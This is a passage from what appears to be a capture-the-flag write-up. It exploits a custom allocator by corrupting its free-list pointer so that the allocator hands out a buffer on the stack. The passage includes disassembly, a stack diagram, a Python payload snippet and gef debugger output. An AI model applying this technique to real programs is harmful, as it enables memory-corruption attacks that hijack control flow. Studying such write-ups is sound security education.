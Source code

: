 ```text
.text:0000000000400905 ; int __cdecl main(int, char **, char **)
.text:0000000000400905 main proc near
.text:0000000000400905
.text:0000000000400905 stdin_buffer= byte ptr -120h    ;; <<-- this buffer provides a good place to land reliably
.text:0000000000400905 sz= dword ptr -14h
```

Additionally, its location is very easy to pinpoint:

```text
               |       |    RetAddr       |
context of     |       |   SFP of main    |
main()         |       |     size         |
               |       |  buffer[0x100]   |
               |       |                  |                                 |
               |       |                  |                                 |
               |       |                  |                                 |
               |       |                  |                                 |
               V       |                  |                                 |
               |       |    RetAddr       |                                 |
               |       |      SFP         |                                 |
               |       |                  |          to the stack of main() V
allocate()     |       |                  |
               |       |                  |
               |       |                  |
               |       |                  |
               |       |                  |
               |       |                  |
```

So now, we can point `head_free_list_ptr` to a location we fully control. All we
need to write at this address a large value, for example 0x1000 so that when
inspecting this address, `allocate_buffer()` will believe the buffer in the stack
is large enough for the new allocation:

```python
padd = 'D'*126 + p64(0x1000) + 'B'*8 + 'C'*8
free(s, "2" + "\0" + padd)

allocate(s, 512)
```

We have now an allocation in stack:
```bash
[A]llocate Buffer
[F]ree Buffer
[W]rite Buffer
[N]ice guy
[E]xit
| W
1) 0x7f06cd628008 -- 128
2) 0x7f06cd628090 -- -1
3) 0x7f06cd628098 -- 10
4) 0x7fffffffe458 -- 512
^C
gef➤  xinfo 0x00007fffffffe458
────────────────────────────────────────────────────[ xinfo: 0x7fffffffe458 ]──────────────────────────────────────
Found 0x00007fffffffe458
Page: 0x00007ffffffde000 → 0x00007ffffffff000 (size=0x21000)
Permissions: rw-
Pathname: [stack]
Offset (from page): +0x20458
Inode: 0
```
